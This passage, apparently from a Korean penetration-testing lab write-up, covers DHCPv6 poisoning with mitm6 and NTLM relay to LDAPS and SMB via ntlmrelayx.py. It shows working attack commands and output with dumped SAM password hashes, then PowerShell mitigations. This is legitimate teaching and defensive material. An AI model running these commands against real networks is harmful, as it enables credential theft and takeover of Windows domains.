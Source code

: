 타겟이 `/wpad.dat` 파일을 공격자 서버에게 요청하고, 공격자는 프록시 서버 주소에 공격자 서버 주소가 들어간 WPAD 파일을 반환한다. 이 WPAD 파일을 가지고 설정을 마친 타겟 호스트는 프록시를 사용할 때마다 공격자 서버로 프록시 계정 정보가 담긴 Net-NTLMv1/v2 계정 정보를 전송한다.&#x20;

위 실습에서는 프록시 계정 정보에 도메인 어드민 정보가 담겨 있었다. 그리고 이를 도메인 컨트롤러의 LDAPS 서비스에 릴레이 했다.&#x20;

`ldaps://192.168.40.150 as CHOI/DA SUCCEED` 메시지에서 보이듯,  da@choi.local 유저로 성공적으로 도메인 컨트롤러의 LDAPS 서비스에 인증을 했고, 이를 이용해 액티브 디렉토리 LDAP 데이터를 모두 빼내올 수 있었다.&#x20;



### DHCPv6 포이즈닝 + NTLM 릴레이 - SMB&#x20;

이번에는 SMB로 릴레이를 해본다. SMB의 경우 SMB Signing 여부에 따라 공격이 성공할 수도 있고 실패할 수도 있다. 또한, 타겟 호스트에서 어떤 유저가 프록시를 이용하는가도 중요하다.&#x20;

1. 먼저 DHCPv6 서버를 실행한다&#x20;

```
mitm6 -d choi.local -hw wkstn01.choi.local
```

2. 이후 SMB Signing 이 없는 서버로 릴레이 공격을 실행한다.&#x20;

```
ntlmrelayx.py -6 -wh xfr.choi.local -t smb://192.168.40.150 -smb2support 

[*] HTTPD(80): Authenticating against smb://192.168.40.150 as CHOI/DA SUCCEED
[*] Target system bootKey: 0x37b7fe1178c20af620c25feb531fbe0d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### 대응 방안&#x20;

NTLM 릴레이 대응 방안에 관련해서는 [ntlm-relay](ntlm-relay/ "mention")페이지를 참고한다. 이 페이지에서는 DHCPv6 포이즈닝 대응 방안에 대해서 알아본다.&#x20;

대응 방안은 크게 네트워크 기반, 호스트 기반이 있다. DHCPv6 포이즈닝의 경우 네트워크 기반의 대응 방안이 가장 중요하다. 호스트 기반의 대응 방안은 있긴 있으나, 여러가지 문제가 발생할 수 있기 때문에 많은 테스트를 거쳐야한다.&#x20;

#### 호스트 기반 대응 방안&#x20;

1. 호스트들의 IPv6 자체를 비활성화 시킨다. 이 경우, 특정 윈도우 기능이 작동하지 않거나 써드파티 스크립트/솔루션들이 작동하지 않을 수 있기 때문에 많은 테스트가 필요하다.&#x20;
2. 호스트들의 IPv6 DHCP Client Service 를 비활성화 시킨다. 이 경우, IPv6 자체는 이용할 수 있기 때문에 여러가지 문제가 생길 확률이 적다.&#x20;

* 내부망에서 IPv6 를 사용하지 않는다면 윈도우 호스트들의  DHCPv6 기능을 비활성화 시킨다 (RouterDiscovery + DHCPv6). 파워쉘을 이용하거나, GPO로 다음의 파워쉘을 내려보내 모든 호스트에 적용시킨다 (출처: [https://www.lmgsecurity.com/mitigating-ipv6-poisoning-attacks/](https://www.lmgsecurity.com/mitigating-ipv6-poisoning-attacks/))&#x20;
  *   ```sql
      Set-NetIPInterface -AddressFamily IPv6 -InterfaceIndex $(Get-NetIPInterface -AddressFamily IPv6 | Select-Object -ExpandProperty InterfaceIndex) -RouterDiscovery Disabled -Dhcp Disabled
      ```


* DHCPv6 전체를 비활성화 할 수 없는 경우 DHCP Client가 DHCPv6 메시지를 보낼 수 없도록 설정한다 (DHCP client only).
  * `Set-NetIPInterface <interfacealias> -AddressFamily IPv6 -dhcp disabled`\
